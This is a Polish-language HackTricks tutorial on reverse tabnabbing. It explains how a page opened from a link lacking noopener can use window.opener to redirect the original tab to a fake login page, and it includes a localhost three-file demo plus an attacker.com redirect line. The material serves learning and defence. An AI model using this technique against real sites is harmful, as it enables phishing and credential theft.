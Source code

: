 {% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}


# Opis

W sytuacji, w której **atakujący** może **kontrolować** argument **`href`** tagu **`<a`** z atrybutem **`target="_blank" rel="opener"`**, który ma zostać kliknięty przez ofiarę, **atakujący** **wskazuje** ten **link** na stronę pod jego kontrolą (**złośliwa** **strona**). Następnie, gdy **ofiara kliknie** link i uzyska dostęp do strony atakującego, ta **złośliwa** **strona** będzie mogła **kontrolować** **oryginalną** **stronę** za pomocą obiektu javascript **`window.opener`**.\
Jeśli strona nie ma **`rel="opener"` ale zawiera `target="_blank"` i nie ma `rel="noopener"`**, może być również podatna.

Zwykły sposób na nadużycie tego zachowania polegałby na **zmianie lokalizacji oryginalnej strony** za pomocą `window.opener.location = https://attacker.com/victim.html` na stronę kontrolowaną przez atakującego, która **wygląda jak oryginalna**, aby mogła **imitować** **formularz logowania** oryginalnej strony i prosić użytkownika o dane logowania.

Jednak należy zauważyć, że ponieważ **atakujący teraz może kontrolować obiekt okna oryginalnej strony**, może go nadużywać w inny sposób, aby przeprowadzać **bardziej ukryte ataki** (może modyfikując zdarzenia javascript, aby wykradać informacje na serwer kontrolowany przez niego?)

# Przegląd

## Z linkiem zwrotnym

Link między stronami rodzica a dziecka, gdy atrybut zapobiegający nie jest używany:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Bez linku zwrotnego

Link między stronami rodzica a dziecka, gdy atrybut zapobiegający jest używany:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Przykłady <a href="#examples" id="examples"></a>

Utwórz następujące strony w folderze i uruchom serwer www za pomocą `python3 -m http.server`\
Następnie, **uzyskaj dostęp** do `http://127.0.0.1:8000/`vulnerable.html, **kliknij** w link i zauważ, jak **oryginalny** **adres URL** **strony** **się zmienia**.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Dostępne właściwości <a href="#accessible-properties" id="accessible-properties"></a>

W scenariuszu, w którym występuje **cross-origin** (dostęp między różnymi domenami), właściwości instancji klasy JavaScript **window**, do której odnosi się obiekt JavaScript **opener**, które mogą być dostępne dla złośliwej witryny, są ograniczone do następujących:

- **`opener.closed`**: Ta właściwość jest używana do określenia, czy okno zostało zamknięte, zwracając wartość boolean.
- **`opener.frames`**: Ta właściwość zapewnia dostęp do wszystkich elementów iframe w bieżącym oknie.
- **`opener.length`**: Liczba elementów iframe obecnych w bieżącym oknie jest zwracana przez tę właściwość.
- **`opener.opener`**: Referencja do okna, które otworzyło bieżące okno, może być uzyskana za pomocą tej właściwości.
- **`opener.parent`**: Ta właściwość zwraca okno nadrzędne bieżącego okna.
- **`opener.self`**: Ta właściwość zapewnia dostęp do samego bieżącego okna.
- **`opener.top`**: Ta właściwość zwraca najwyższe okno przeglądarki.

Jednak w przypadkach, gdy domeny są identyczne, złośliwa witryna zyskuje dostęp do wszystkich właściwości udostępnionych przez [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) obiekt JavaScript.

# Zapobieganie

Informacje o zapobieganiu są udokumentowane w [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing).

## Odniesienia

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
